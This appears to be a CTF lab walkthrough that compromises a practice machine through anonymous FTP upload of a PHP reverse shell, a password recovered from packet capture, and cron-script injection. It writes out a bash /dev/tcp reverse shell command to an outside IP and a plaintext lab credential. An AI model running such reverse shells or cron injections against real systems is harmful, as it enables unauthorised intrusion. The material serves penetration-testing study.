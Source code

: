 ```yaml
---
sticker: emoji//1f336-fe0f
---
```

# ENUMERATION



## OPEN PORTS

Let's begin with a simple Nmap scan:

![](../images/Pasted%20image%2020241023164431.png)

```ad-hint
OPEN PORTS:

- 21: ftp (Anonymous login allowed)
- 22: ssh
- 80: http
```

Let's log in FTP since anonymous login is allowed:

![](../images/Pasted%20image%2020241023164907.png)

We found this files, let's download them all using `mget *`

Let's read `notice.txt`:

![](../images/Pasted%20image%2020241023165101.png)

Seems like `maya` could be an user for ssh

If we try to use `steghide` in the important.jpg we get this:

![](../images/Pasted%20image%2020241023165247.png)
Let's try to change the hex for the file into a jpg, and try again:

![](../images/Pasted%20image%2020241023165422.png)
![](../images/Pasted%20image%2020241023165648.png)

Couldn't get anything useful, so, let's start with the web fuzzing and enumeration
## FUZZING

Using FFUF to fuzz the website, I found this directory:

![](../images/Pasted%20image%2020241023164544.png)

Let's visit the website and try to enumerate it further: 

![](../images/Pasted%20image%2020241023165753.png)
## SOURCE CODE

![](../images/Pasted%20image%2020241023165822.png)
# EXPLOITATION


## FILES DIRECTORY

![](../images/Pasted%20image%2020241023165853.png)

Seems like we could exploit the ftp to upload files into the server, we could try uploading a [[MOST COMMON REVERSE SHELLS|reverse shell]] for this CTF, I uploaded a [PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php):



![](../images/Pasted%20image%2020241023174700.png)

Nice, let's send the reverse shell and get our connection:


![](../images/Pasted%20image%2020241023174758.png)

Once I established the connection, I stabilized my shell using the [[STABLE SHELL|stable shell tricks]]

![](../images/Pasted%20image%2020241023174947.png)

Nice, now we have an stable shell, let's get our flags and escalate privileges.


# PRIVILEGE ESCALATION

Before trying to escalate privileges, we are able to read the recipe.txt file and it says this:

![](../images/Pasted%20image%2020241023175629.png)

So, we got our first answer, let's try to read the home directory:

![](../images/Pasted%20image%2020241023175658.png)


If we try to `cd` to Lennie home, permission is denied, but now, we can try other escalation vectors, for example, if we use linpeas, we are able to see we have 2 suspicious folder in root:

```ad-note
[+] Unexpected folders in root 
/incidents /data
```

Let's read the contents of both files:

![](../images/Pasted%20image%2020241023180403.png)

We got a `.pcapng` file, we can analyze it with wireshark, let's copy it to `/var/www/html/files/ftp` and download it to our machine:

![](../images/Pasted%20image%2020241023180944.png)
![](../images/Pasted%20image%2020241023180951.png)


Now that we filtered tcp in wireshark, we can follow the tcp stream for the following:

![](../images/Pasted%20image%2020241023182634.png)

If we follow the stream, we are able to see this:

![](../images/Pasted%20image%2020241023182732.png)

Seems like we got the password for Lennie:

```ad-important
`lennie:c4ntg3t3n0ughsp1c3`
```

![](../images/Pasted%20image%2020241023182848.png)
We are in, now, we are able to read the `user.txt`

If we try `sudo -l`, lennie may not run sudo on startup, let's use the other techniques from [[BASIC PRIVESC IN LINUX|linux privesc]]

After trying all that, nothing useful came, but, in the lennie home, we found a useful directory called `/scripts` 
![](../images/Pasted%20image%2020241023183424.png)
I found a planner.sh and startup_list.txt, second file did not have anything useful, but first file, had this:


![](../images/Pasted%20image%2020241023183735.png)

A `/etc/print.sh` file, we can write on it, let's write a reverse shell on it:

```ad-important
shell: `echo "/bin/bash -i >& /dev/tcp/10.6.34.159/1234 0>&1" >> /etc/print.sh`
```

Since planner.sh runs every minute, we only need to wait a minute with out netcat set on to get the shell:

![](../images/Pasted%20image%2020241023184044.png)

And just like that, we finished the machine:

![](../images/Pasted%20image%2020241023184153.png)

Gg!

